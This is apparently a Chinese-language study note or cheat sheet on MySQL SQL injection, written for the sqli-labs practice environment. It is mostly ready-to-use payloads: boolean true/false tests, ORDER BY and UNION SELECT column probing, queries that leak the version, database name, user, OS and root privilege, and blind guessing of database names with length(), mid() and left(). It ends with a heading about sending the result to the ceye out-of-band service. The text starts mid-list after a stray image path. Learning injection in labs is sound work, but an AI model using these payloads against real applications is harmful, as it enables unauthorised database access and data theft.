 - or 1=2

- and 1=1

- and 1=2

- #### 数字型注入

  - 加单引号  错误出异常
  - and 1=1   正常
  - and   1=2  异常

- #### 字符型注入

  - 加单引号  错误出异常
  - and '1' = '1  正常
  - and '1' = '2  异常

#### 判断字段长度

- order  by  数字   可以判断字段的个数
- 也可以用猜字段  union  select 1，2，3

#### 判断字段回显位置

在链接后面添加语句`【 union select 1,2,3,4,5,6,7,8,9,10,11#】`进行联合查询（联合查询时记得把前面的查询为空）来暴露可查询的字段号。 

#### 判断数据库注入

利用内置函数暴数据库信息 
version()版本；database()数据库；user()用户； 
不用猜解可用字段暴数据库信息(有些网站不适用): 
and 1=2 union all select version() 
and 1=2 union all select database() 
and 1=2 union all select user() 
操作系统信息：and 1=2 union all select @@global.version_compile_os from mysql.user 
数据库权限： 
and ord(mid(user(),1,1))=114 返回正常说明为root 

#### 查找数据库名

- GET：IP/Less-1/?id=100' union select 1,(select database()),3--+

- POST：union select 1,(select group_concat(schema_name) from information_schema.schemata),3--+

- 查看数据库长度length（） and length(database())>10--+

- 查看数据库名字mid（）或者left    

  - mid (string，start，length）返回指定的字符串从指定位置开始（可以用来猜数据库名 ） and mid(database(),1,1)>'a'

  - left (string,lenth)  返回最左边指定的字符数

    and left(database(),1)>'a'  (猜名字)

- 将查到的库名放到同一个字符串

  - select GROUP_CONCAT(schema_name) from information_schema.schemata

- 查到数单个据库名发送到ceye
